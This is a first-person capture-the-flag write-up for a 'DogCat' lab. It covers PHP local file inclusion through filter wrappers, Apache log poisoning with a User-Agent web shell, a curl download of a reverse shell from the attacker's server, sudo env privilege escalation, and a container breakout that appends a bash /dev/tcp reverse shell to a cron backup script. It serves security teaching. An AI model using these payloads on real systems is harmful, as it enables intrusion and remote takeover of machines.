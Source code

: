 # DogCat

This CTF is about exploiting a PHP application, LFI to RCE and breaking out of a docker container.

## Enumeration

Start off with an NMAP scan

```
nmap -sC -Pn -v -sV <IP_ADDR>
```

![Image](images/1.png)

This NMAP scan shows us that port 80 (Apache Webserver) and port 22 are running.

![Image](images/2.png)

Looking at the website, we see that there are 2 buttons. The Dog button will show us a picture of a dog, and the Cat button will show us a picture of a cat.

Looking at the URL, we see that there is a `?view=` parameter which changes to dog or cat when viewing either button. I happened to run `dogcat` as a parameter value and it gave me this error:

![Image](images/3.png)

This error message tells 2 things:
1. The parameter is looking for a filename (in this case, dog or cat) and automatically adds `.php` at the end of it.
2. If the parameter value doesn't have either `dog` or `cat` in the name, we don't get any errors but we can't view anything either. There is index.php being called, but the page source doesn't seem to have anything interesting.

This means, we have to try LFI and see if we can read the php files in this web application.

## Exploit

Here, we have to use PHP wrappers to read the PHP source code. More information here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers

I will be using this payload: `/?view=php://filter/convert.base64-encode/resource=<PHP_FILE>`

Running the above payload with dog as a value shows us this:

![Image](images/3.png)

Decoding the above base-64 string shows us that `dog.php` randomly picks between 1.jpg - 10.jpg. However, we want to go to step further and try to find out the code in index.php. For this, we will use this payload: `/?view=php://filter/convert.base64-encode/resource=dog/../index`

![Image](images/4.png)

As we can see, there is a large base-64 encoded string being returned here. We can decode this on CyberChef (https://cyberchef.org) and get the following code:

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

In this, We can see that there are 2 parameters that are getting asked, `ext` and `view`. They do the following:
1. If the `ext` parameter is not included in the URL, then it assumes the extension to be php and appends `.php` at the end of the file being called.
2. If there is no `dog` or `cat` as a value in the `view` parameter, then it doesn't parse the request.

To craft the perfect entry and perform LFI, we have to include either dog or cat in `view` parameter value AND include the `ext` parameter but leave it empty so it isn't auto-assigned to php.

The ideal parameter would be `/?view=dog/../../../../../<FILE_PATH>&ext`

I tried looking into `/etc/passwd` but it didn't have anything so I looked into the log file for apache instead, making a payload like this: `/?view=dog/../../../../../var/log/apache2/access.log&ext` 

>127.0.0.1 - - [11/Oct/2022:10:11:12 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [11/Oct/2022:10:11:43 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
10.8.5.224 - - [11/Oct/2022:10:11:53 +0000] "GET /?view=dog/../../../../../var/log/apache2/access.log&ext HTTP/1.1" 200 935 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"

Here, we can see that `User-Agent` Header is outputted in this log file. This can be used as an RCE vector as you can edit the Header to add php code which will execute shell commands in the target machine on the webpage being loaded.

I add the following code snippet to the `User-Agent` via BurpSuite or curl: `<?php echo shell_exec($_GET['cmd']); ?>`

![Image](images/5.png)

Once you send this request, you can execute code by adding a `&cmd=<COMMAND>` parameter.

![Image](images/6.png)

I tried executing a reverse shell via sh, bash, mkfifo nc but none of them seemed to work, so I decided to upload a reverse shell onto the machine and execute it instead. However, `wget` didn't seem to work so I tried a `curl` command instead.

I downloaded the PentestMonkey PHP reverse shell (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), changed the IP and port values and then set up `nc -lvnp <PORT>` on my machine. I used `python http.server <PORT>` to set up a HTTP server (so that we can use `curl` to get the reverse shell onto target machine). Then, I ran the following payload onto the machine: `/?view=dog/../../../../../var/log/apache2/access.log&ext&cmd=curl -O http://<IP>:<PORT>/shell.php`

This let me download the reverse shell onto the target machine. Next, you have to run `chmod 777 shell.php` and `php shell.php` to execute and actually get the shell.

## Flags

### Flag 1:

Flag 1 is available in `/var/www/html/flag.php`

### Flag 2:

Flag 2 is available at `/var/www`

### Flag 3:

Flag 3 requires us to have root access on this machine. If we type `sudo -l` we see this:

```zsh
$ sudo -l
Matching Defaults entries for www-data on ab2a5900b073:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ab2a5900b073:
    (root) NOPASSWD: /usr/bin/env
```

This tells us that we are allowed to run `env` as sudo without password. One look at GTFObins and we see this: https://gtfobins.github.io/gtfobins/env/#sudo

This tells us that for Priv-Esc we just have to run `sudo env /bin/sh`

Flag 3 is available in `/root/flag3.txt`

### Flag 4:

For flag 4, I was a lil confused at first, thinking what more could we need other than getting root? I had done a CTF a couple weeks earlier which involved a docker container, and I knew to check `/proc/1/cgroup` and saw that I am in a docker container.

A little bit of exploration brough be into `/opt/backups` where there was a shell script and there was a tar file updated recently. Looking into the `backup.sh`, I saw this:

```vim
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

This was a script running bash, which was taking a backup of this container being run every minute (I ran pspy and checked crontabs but nothing was there so I was manually checking if the file was being updated).

Seeing how this has /root/container (which is a file not present on this machine), it meant that this is being run from some other machine so I just had to add a rev shell and try to get into the this other environment.

I ran `echo 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1' >> backup.sh` and waited for the shell to be run again.

Flag 4 is available in `/root/flag4.txt` in the other machine.

